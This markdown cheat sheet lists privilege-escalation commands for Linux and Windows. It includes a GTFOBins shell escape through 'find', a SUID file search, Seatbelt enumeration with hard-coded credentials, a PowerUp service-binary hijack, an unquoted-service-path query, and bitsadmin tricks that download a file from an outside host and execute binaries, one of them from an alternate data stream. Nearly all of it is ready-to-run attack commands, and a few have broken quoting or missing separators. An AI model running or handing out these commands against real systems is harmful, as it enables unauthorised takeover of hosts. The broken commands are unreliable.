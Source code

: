 # Privilege Escalation
## Linux
### Identify Services Running as Root
```cmd
ps -aux | grep root
```

### Search for files with SETUID
```bash
find / -perm -4000 -ls 2>/dev/null
```

### GTFOBin - Find
```cmd
find . -exec /bin/sh \; -quit
```


## Windows
### Seatbelt
#### Simple Checks
##### AV Checks
```powershell
seatbelt.exe -q AntiVirus -outputfile="<filename.txt>"
```
##### Installed Products
```powershell
seatbelt.exe -q InstalledProducts  -outputfile="<filename.txt>"
```
##### TCP Connections
```powershell
seatbelt.exe -q TcpConnections  -outputfile="<filename.txt>"
```
##### System Group Checks
```powershell
seatbelt.exe -q group=system  -outputfile="<filename.txt>"
```
Interesting groups
    * system
    * user
    * remote -computername=host.target.com
    * chrome
    * slack
    * misc
    * all
##### Remote System Checks
```powershell
seatbelt.exe -q AppLocker computername=10.10.10.15 -user=hitbox\bgreen -password=Password1  -outputfile="<filename.txt>"
```

### PowerUP
#### Import Module
```powershell
Import-Module .\PowerUp.ps1
```
#### Run All Checks 
```powershell
Invoke-AllChecks
```
#### Exploit the Vulnerability
```powershell
Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\Video Stream\1337.exe"
```
##### Verify the Exploit worked
```powershell
net localgroup administrator
```

### LOLBAS
#### Find Unquoted Service Paths
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "AUTO" | findstr /i /v c:\windows\\* | findstr /i /v """
```
#### bitsadmin
##### Download a file
```cmd
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternalls.com/autoruns.exe c:\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
##### Copy a File
```cmd
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /complete 1 & bitsadmin /reset
```
##### Execute a file
```cmd
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 C:\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /reset
```
##### Execute a file from Alternate Data Stream
```cmd
bitsadmin /create 1 bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 C:\playfolder\1.txt:cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /complete 1
```